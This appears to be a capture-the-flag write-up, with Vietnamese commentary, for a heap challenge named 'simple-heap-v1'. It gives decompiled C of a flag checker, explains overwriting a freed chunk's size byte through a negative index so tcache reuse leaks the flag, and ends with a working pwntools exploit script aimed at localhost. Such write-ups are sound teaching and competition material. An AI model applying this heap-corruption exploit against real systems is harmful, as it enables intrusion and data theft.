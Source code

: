 # simple-heap-v1
## Source code
```c
void __fastcall check(const char *a1)
{
  int fd; // [rsp+14h] [rbp-Ch]
  void *buf; // [rsp+18h] [rbp-8h]

  buf = malloc(0x80uLL);
  fd = open("flag.txt", 0);
  if ( fd < 0 )
    errx(1, "failed to open flag.txt");
  read(fd, buf, 0x80uLL);
  close(fd);
  if ( !strcmp(a1, (const char *)buf) )
  {
    puts("Correct!");
    exit(7);
  }
  printf("%s is not the flag.\n", a1);
  free(buf);
}

void *getchunk()
{
  size_t size; // [rsp+8h] [rbp-28h] BYREF
  void *buf; // [rsp+10h] [rbp-20h]
  void *v3; // [rsp+18h] [rbp-18h]
  ssize_t v4; // [rsp+20h] [rbp-10h]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  printf("size: ");
  __isoc99_scanf("%lu", &size);
  getchar();
  printf("data: ");
  v3 = malloc(size);
  buf = v3;
  while ( size )
  {
    v4 = read(0, buf, size);
    size -= v4;
    buf = (char *)buf + v4;
  }
  return v3;
}

int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char v3; // [rsp+Bh] [rbp-25h]
  int v4; // [rsp+Ch] [rbp-24h] BYREF
  __int64 v5; // [rsp+10h] [rbp-20h]
  void *ptr; // [rsp+18h] [rbp-18h]
  __int64 v7; // [rsp+20h] [rbp-10h]
  unsigned __int64 v8; // [rsp+28h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  puts("Welcome to the flag checker");
  v5 = getchunk();
  puts("I'll give you three chances to guess my flag.");
  ptr = (void *)getchunk();
  check(ptr);
  puts("I'll also let you change one character");
  printf("index: ");
  __isoc99_scanf("%d", &v4);
  getchar();
  printf("new character: ");
  v3 = getchar();
  getchar();
  *((_BYTE *)ptr + v4) = v3;
  check(ptr);
  free(ptr);
  puts("Last chance to guess my flag");
  v7 = getchunk();
  check(v7);
  exit(0);
}
```

## Phân tích
- Chương trình cho phép ta 3 lần đoán flag và kiểm tra sau đó free chunk được kiểm tra
- Chunk 1 chương trình có vẻ không cho ta làm gì với nó
- Chunk 2 được tạo và cho phép ta sửa 1 byte, khi này mình nảy ra ý tưởng sẽ thay đổi size của chunk 2 

![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/3846cb81-14c8-4d2e-8e47-02731ff4f7f5)
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/8546ba02-74f1-44ca-9041-cb9fd6c03faf)
- Khi dừng chương trình ở đây ta sẽ có chunk như sau
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/6e43f120-538d-4a6d-8826-3dd4aaf515fa)
- Ta sửa size chunk 2 thành 0x31 và khi free chunk 2
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/9671d3f8-a8ff-4859-aa0a-de9164462ad8)
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/ea0d3fb4-7a28-419b-b9a8-9c5c5fb1a2a2)
- Khi ta malloc một chunk có size 0x30 thì chương trình sẽ lấy chunk 0x30 đang trong tcache ra và trả nó về địa chỉ cũ
- Khi này ta sẽ ghi đè các byte null ở giữa chunk 2 với flag, có 0x10 byte null ở giữa chunk 2 và flag, mục đích khi in ra bằng `%s` nó sẽ không gặp các byte null và đọc được flag
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/5cef7936-5dd1-44e5-8c85-859322540bd9)
- Sau khi ghi đè các null byte ở giữa chunk 2 và flag
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/00605c38-1efc-4ebb-8fd9-0b57b6865a2d)
## Kết quả
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/549c91c9-599e-43c3-8c39-b63c0f18c14b)
```python
#!/usr/bin/python3

from pwn import *

exe = ELF('chal', checksec=False)

context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*main+300
                b*main+237
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('localhost', 5000)
else:
        p = process(exe.path)

GDB()
def create(size, data):
        sla(b"size", size)
        sa(b"data", data )
def change(index, data):
        sla(b"index", index)
        sla(b"character", data)

create(b"8", b"a" * 8)
create(b"16", b"a" * 16)
change(b"-8", p8(0x31))
create(b"40", b"a" * 40)


p.interactive()
```